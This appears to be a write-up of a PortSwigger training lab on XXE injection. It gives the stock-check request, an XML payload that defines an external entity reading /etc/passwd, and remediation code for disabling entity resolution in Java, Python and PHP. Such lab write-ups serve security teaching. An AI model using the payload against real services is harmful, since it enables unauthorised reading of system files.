


## Metadata

- **Difficulty:** Apprentice
- **Category:** XXE injection
- **Lab URL:** [Lab: Exploiting XXE using external entities to retrieve files](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files)
- **Date Solved:** 15/10/2026
## Vulnerability Summary

The app contains an XML External Entity (XXE) injection vulnerability within the stock check functionality (`POST /product/stock`). The underlying XML parser processes Document Type Definitions (DTDs) and resolves external entities without restriction. By supplying an external entity pointing to `file:///etc/passwd` inside the `<productId>` node, the resolved contents are reflected back in the application's error response due to failed input validation on product IDs.
## Reconnaissance

The app's check stock functionality works by submitting XML input to the server:

The request is `POST /product/stock` with an XML body and header `Content-Type: application/xml`. Injecting a non-numeric input (`uia`) `productId` yields a `400 Bad Request` that reflected the input in the response:
```http
"Invalid product ID: uia"
```
## Exploitation Steps

1. Navigate to a random product (`GET /product?productId=1`) and click on the "Check stock" button. This should produce a `POST /product/stock` request. Send this request to Repeater.
2. Modify the body of the request to the following XML input:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY uia SYSTEM "file:///etc/passwd"> ]><stockCheck>
  <productId>&uia;</productId>
  <storeId>1</storeId>
</stockCheck>
```
3. The contents of the `/etc/passwd` file should be returned in the response, within the `"Invalid product ID: ...` body. Lab is solved.

## Payload Used

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY uia SYSTEM "file:///etc/passwd"> ]><stockCheck>
  <productId>&uia;</productId>
  <storeId>1</storeId>
</stockCheck>
```
We introduce a `DOCTYPE` element that defines an external entity, `uia`, containing the path to the `/etc/passwd` file. This entity is then used as input in the `<productId>` tag, causing the app to return the contents of the file in the response.
## Root Cause

The vulnerability exists because the server-side XML parser is configured to process custom Document Type Definitions (DTDs) and resolve external entities (`SYSTEM` identifier) by default. Additionally, the attack is made in-band because the app reflects raw, resolved entity values in verbose error messages when backend type validation on `<productId>` fails.
## Remediation

- **Disable External Entities and DTDs (Parser Configuration):** Depending on the backend technology used, disable entity resolution explicitly:
    - Java (`DocumentBuilderFactory`):
    ```java
    DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
    // Completely disable DOCTYPE declarations:
    dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
    // Or disable external general and parameter entities:
    dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
    dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
    dbf.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
    dbf.setXIncludeAware(false);
    ```
    - Python (`lxml` / `defusedxml`): Use `defusedxml`. If using `lxml`, explicitly disable external entities and network access:
    ```python
    parser = etree.XMLParser(resolve_entities=False, no_network=True)
    ```
    - PHP (`libxml`): Before PHP 8.0, external entity loading was enabled by default, so call `libxml_disable_entity_loader(true)`. From PHP 8.0 onward, external entity loading is disabled by default and that function is deprecated. Verify your libxml and PHP configuration rather than relying on defaults alone.
- **Use Less Complex Data Formats:** Where applicable, avoid using XML for API communication. Use simpler serialization formats such as JSON that do not support custom document schemas or external references natively.
- **Sanitize and Genericize Error Handling (defense in depth):** Ensure input validation errors do not reflect the raw parsed input back to the client. Generic error messages (e.g., `Invalid Product ID`) prevent local file disclosure and error-based data extraction.